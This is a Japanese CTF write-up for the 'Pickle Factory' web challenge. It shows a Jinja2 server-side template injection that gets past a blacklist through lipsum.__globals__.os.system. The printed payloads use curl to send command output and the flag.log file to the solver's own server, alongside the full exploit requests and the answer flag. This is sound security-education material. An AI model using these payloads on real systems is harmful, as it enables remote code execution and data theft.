


# Pickle Factory:Web:50pts
My cousin said he once got fired for putting his p*ckle into the pickle slicer at his old workplace. Can you confirm that it's true for me?  
Note: flag lives on the local filesystem  

[http://pickle-factory.ctf.maplebacon.org](http://pickle-factory.ctf.maplebacon.org/)  

[pickle-factory.zip](pickle-factory.zip)  

# Solution
URLとソースが渡される。  
アクセスすると、コードを送信するものと過去に投稿されたpicklesを見る二つのフォームがある。  
Pickle Factory  
  
試しに`print(1)`などをコードとして送ってみるが、Invalid JSONと怒られる。  
JSONである必要がありそうなので、`{"Test":"Satoki"}`を送信すると`766f2d13ace543c3eb0a9cffb03963b1`とUUIDが表示された。  
これをpicklesを見るフォームから送信すると、以下の結果が表示された。  
  
`Test`や`Satoki`を含むバイト文字列とハートが表示されたが、意味が分からないのでソースを見ると以下の通りであった。  
```python
~~~
from jinja2 import Environment
~~~
            large_template = """
    <!DOCTYPE html>
    <html>
        <head>
            <title> Your Pickle </title>
            <style>
                html * {
                    font-size: 12px;
                    line-height: 1.625;
                    font-family: Consolas; }
            </style>
        </head>
        <body>
            <code> """ + str(pickles[uid]) + """ </code>
            <h2> Sample good: </h2>
            
            
            {{space*59}}
            
            
            {{space*6+filler*5+space*48}}
            
            
            {{space*4+filler*15+space*27+filler*8+space*5}}
            
~~~
def render_template_string_sanitized(env, template, **args):
    # it works!
    global_vars = ['self', 'config', 'request', 'session', 'g', 'app']
    for var in global_vars:
        template = "\n" + template
    return env.from_string(template).render(**args)
~~~
```
ユーザ入力を含んだテンプレートからページ内容を生成しているが、ブラックリストがあるようだ。  
フラグがファイルにあることからも、SSTIを狙えばよいとわかる。  
ブラックリストに無いもので`lipsum.__globals__.os.system(cmd)`のRCEテクニックが知られている。  
コードとして以下のJSONを送り、UUIDよりpicklesを見てやると、待ち受けた自身のサーバにコマンドの実行結果を含むリクエストが届く。  
```
{"Test":"{{ lipsum.__globals__.os.system('curl https://[自身のサーバ]/?s=`[コマンド]`') }}"}
```
まずは`ls|base64`でファイルを探してやる(適当にパーセントエンコーディングしている)。  
```bash
$ curl -X POST http://pickle-factory.ctf.maplebacon.org/create-pickle -d 'code=%7B%22Test%22%3A%22%7B%7B+lipsum.__globals__.os.system%28%27curl+https%3A%2F%2F[自身のサーバ]%2F%3Fs%3D%60ls%7Cbase64%60%27%29+%7D%7D%22%7D'
332771efba6e962708f901cc984b2520
$ curl http://pickle-factory.ctf.maplebacon.org/view-pickle?uid=332771efba6e962708f901cc984b2520
~~~
            <code> b"\x80\x04\x95m\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04Test\x94\x8c_0\x94s." </code>
~~~
```
すると自身のサーバには以下が届いた。  
```
GET
/?s=RG9ja2VyZmlsZQphcHAucHkKZmxhZy5sb2cKcmVxdWlyZW1lbnRzLnR4dAp0ZW1wbGF0ZXMK
```
以下の通りデコードする。  
```bash
$ echo 'RG9ja2VyZmlsZQphcHAucHkKZmxhZy5sb2cKcmVxdWlyZW1lbnRzLnR4dAp0ZW1wbGF0ZXMK' | base64 -d
Dockerfile
app.py
flag.log
requirements.txt
templates
```
明らかに`flag.log`が怪しいので自身のサーバにファイルをPOSTするコードを以下の通りに作成する。  
```
{"Test":"{{ lipsum.__globals__.os.system('curl -X POST -F file=@flag.log https://[自身のサーバ]') }}"}
```
これを送信後に、picklesを見てやればよい。  
```bash
$ curl -X POST http://pickle-factory.ctf.maplebacon.org/create-pickle -d 'code=%7B%22Test%22%3A%22%7B%7B+lipsum.__globals__.os.system%28%27curl+-X+POST+-F+file%3D%40flag.log+https%3A%2F%2F[自身のサーバ]%27%29+%7D%7D%22%7D'
798bfc2a4f2560db60da8fd045a89b9e
$ curl http://pickle-factory.ctf.maplebacon.org/view-pickle?uid=798bfc2a4f2560db60da8fd045a89b9e
~~~
            <code> b"\x80\x04\x95x\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04Test\x94\x8cj0\x94s." </code>
~~~
```
すると自身のサーバに以下のリクエストが届く。  
```
POST
/
--------------------------a16969fc16182c11
Content-Disposition: form-data; name="file"; filename="flag.log"
Content-Type: application/octet-stream

Employee Termination Form
Date: 2022/06/09
Name of Terminated Employee: XXXX
Address: XXXXXXXX
Reason: Stuck his pickle into the pickle slicer. maple{he_was_fired_and_so_was_she}

--------------------------a16969fc16182c11--
```
flagが書かれていた。  

## maple{he_was_fired_and_so_was_she}